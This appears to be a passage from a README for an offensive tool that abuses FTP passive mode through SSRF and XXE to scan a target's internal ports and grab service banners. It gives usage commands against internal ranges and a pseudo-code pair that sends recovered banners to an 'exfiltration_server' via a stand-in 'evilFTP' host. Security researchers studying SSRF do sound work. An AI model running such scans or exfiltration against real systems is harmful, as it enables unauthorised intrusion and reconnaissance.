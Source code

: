 Usage:

Testing the script with some externally reachable hosts using dockerized curl:
```bash
./pasvaggresvFTP.sh -t 17.32.208.224/31 -p 80,140-145,443 -x ./dispatcher_examples/testing_ssrf_curl_port.sh
```

Scanning the internal network of a target:
```bash
./pasvaggresvFTP.sh -t 10.0.0.0/25 -p 22,8000-9000 -x ./dispatcher_examples/target_ssrf_port.sh
```

<p align="center">
  <img width="680" src="images/port.gif"/>
</p>

## TCP Service Banner Disclosure:

This is based on the same foundations as the port scanner. The only difference is that we go one step further and attempt to recover the banner of the TCP service.
So again the client is directed to retrieve for example a file from our FTP server from where is directed to establish the data channel to the target IP:PORT. If a service that responds with a banner is listening to that port, then the client will read that response as the contents of the file requested earlier on. Now depending on the kind of SSRF we have, there are two possibilities for actually getting back that banner from the FTP client:
1. Non-Blind SSRF: extracting the banner is trivial, we simply point the client to ftp://evilFTP/whatever and the banner should be returned in the response since is a non-blind SSRF. The banner extraction should be performed within the dispatcher based on the HTML response.
2. Blind SSRF: here the extraction of the banner takes two steps. First, we get the banner response from the TCP service and then we issue another request to exfiltrate that response. This process may look like this:
```
banner=$(ssrf ftp://evilFTP/IP/PORT/file)
ssrf http://exfiltration_server/$banner
```

Since we need a state to be kept between the two SSRF calls, it should not be possible to exfiltrate banners through basic SSRF.
But is possible to achieve this with the SSRF through XXE which is implemented in the xxe_bannerFTP.sh

Usage:

For the non-blind SSRF, we simply use the pasvaggresvFTP:
```bash
./pasvaggresvFTP.sh -t 10.0.0.0/25 -p 100-200 -x ./dispatcher_examples/target_ssrf_nonblind_banner.sh -q 20
```

Testing the blind SSRF through XXE using a dockerized java client:
```bash
./xxe_bannerFTP.sh -t 17.32.208.224/30 -p 140-145 -x ./dispatcher_examples/testing_xxe_blind_java_banner.sh -q 20
```
